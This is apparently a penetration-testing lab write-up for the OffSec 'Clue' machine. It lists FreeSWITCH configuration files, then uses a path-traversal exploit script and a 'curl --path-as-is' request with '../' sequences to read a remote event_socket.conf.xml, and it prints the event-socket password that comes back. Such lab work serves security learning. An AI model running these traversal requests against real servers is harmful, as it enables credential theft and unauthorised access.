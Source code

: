```
cdr_pg_csv.conf.xml          hiredis.conf.xml          pre_load_modules.conf.xml   voicemail.conf.xml
cdr_sqlite.conf.xml          httapi.conf.xml           presence_map.conf.xml       voicemail_ivr.conf.xml
cepstral.conf.xml            http_cache.conf.xml       python.conf.xml             vpx.conf.xml
cidlookup.conf.xml           ivr.conf.xml              redis.conf.xml              xml_cdr.conf.xml
conference.conf.xml          java.conf.xml             rss.conf.xml                xml_curl.conf.xml
conference_layouts.conf.xml  kazoo.conf.xml            rtmp.conf.xml               xml_rpc.conf.xml
console.conf.xml             lcr.conf.xml              sangoma_codec.conf.xml      xml_scgi.conf.xml
curl.conf.xml                local_stream.conf.xml     shout.conf.xml              zeroconf.conf.xml
db.conf.xml                  logfile.conf.xml          skinny.conf.xml
dialplan_directory.conf.xml  lua.conf.xml              smpp.conf.xml
dingaling.conf.xml           memcache.conf.xml         sms_flowroute.conf.xml
                                                                                                                    
┌──(kali㉿kali)-[~/…/freeswitch/etc/freeswitch/autoload_configs]
└─$ cat event_socket.conf.xml
<configuration name="event_socket.conf" description="Socket Client">
  <settings>
    <param name="nat-map" value="false"/>
    <param name="listen-ip" value="::"/>
    <param name="listen-port" value="8021"/>
    <param name="password" value="ClueCon"/>
    <!--<param name="apply-inbound-acl" value="loopback.auto"/>-->
    <!--<param name="stop-on-bind-error" value="true"/>-->
  </settings>
</configuration>
                                                                                                                    
┌──(kali㉿kali)-[~/…/freeswitch/etc/freeswitch/autoload_configs]
└─$ 
```

Info about the config - https://developer.signalwire.com/freeswitch/FreeSWITCH-Explained/Modules/mod_event_socket_1048924/

hmmmmm so lets use that earlier exploit to double check to see what that password is set to:

┌──(kali㉿kali)-[~/offsec/pg-practice/Clue]
└─$ python3 exploit.py 192.168.199.240 -p 3000 /etc/freeswitch/conf/autoload_configs/event_socket.conf.xml

python3 exploit.py 192.168.199.240 -p 3000 ../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml

curl --path-as-is http://192.168.199.240:3000/../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml
┌──(kali㉿kali)-[~]
└─$ curl --path-as-is http://192.168.199.240:3000/../../../../../../../../etc/freeswitch/autoload_configs/event_socket.conf.xml
<configuration name="event_socket.conf" description="Socket Client">
  <settings>
    <param name="nat-map" value="false"/>
    <param name="listen-ip" value="0.0.0.0"/>
    <param name="listen-port" value="8021"/>
    <param name="password" value="StrongClueConEight021"/>
  </settings>
</configuration>
